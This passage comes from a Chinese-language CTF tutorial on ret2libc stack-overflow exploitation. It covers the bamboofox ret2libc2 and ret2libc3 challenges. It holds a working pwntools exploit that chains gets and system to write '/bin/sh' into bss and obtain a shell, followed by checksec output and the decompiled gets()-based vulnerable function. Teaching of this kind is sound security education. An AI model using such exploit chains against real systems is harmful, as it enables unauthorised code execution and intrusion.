 这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 `'bbbb'` 作为虚假的地址，其后参数对应的参数内容。

这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。

#### 例2

这里以 bamboofox 中的 ret2libc2 为例 。

> 点击下载: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的 exp 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline(b'/bin/sh')
sh.interactive()
```

需要注意的是，我这里向程序中 bss 段的 buf2 处写入 /bin/sh 字符串，并将其地址作为 system 的参数传入。这样以便于可以获得 shell。

#### 例3

这里以 bamboofox 中的 ret2libc3 为例  。

> 点击下载: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

在例 2 的基础上，再次将 system 函数的地址去掉。此时，我们需要同时找到 system 函数地址与 /bin/sh 字符串的地址。首先，查看安全保护

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍旧开启了堆栈不可执行保护。进而查看源码，发现程序的 bug 仍然是栈溢出：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
